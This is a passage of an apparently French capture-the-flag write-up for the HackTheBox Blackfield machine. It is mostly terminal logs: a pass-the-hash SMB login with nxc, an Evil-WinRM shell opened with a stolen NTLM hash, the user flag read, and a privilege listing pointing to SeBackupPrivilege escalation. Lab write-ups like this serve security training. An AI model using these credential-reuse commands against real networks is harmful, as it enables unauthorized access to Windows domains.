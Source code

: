 ```
```

## Pass-The-Hash
```
└─# nxc smb BLACKFIELD.local -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d' 
SMB         10.129.229.17   445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.129.229.17   445    DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d
```

Je vais essayer le `winrm`

```

┌──(root㉿xXxX)-[/home/blo/CTFs/Boot2root/HTB]
└─# evil-winrm -i $ip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                             
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                               
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_backup\Documents> *Evil-WinRM* PS C:\Users\svc_backup\desktop> type user.txt
3920bb317a0bef51027e2852be64b543

```


## escalation
```
*Evil-WinRM* PS C:\Users\svc_backup\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_backup\desktop> 
```
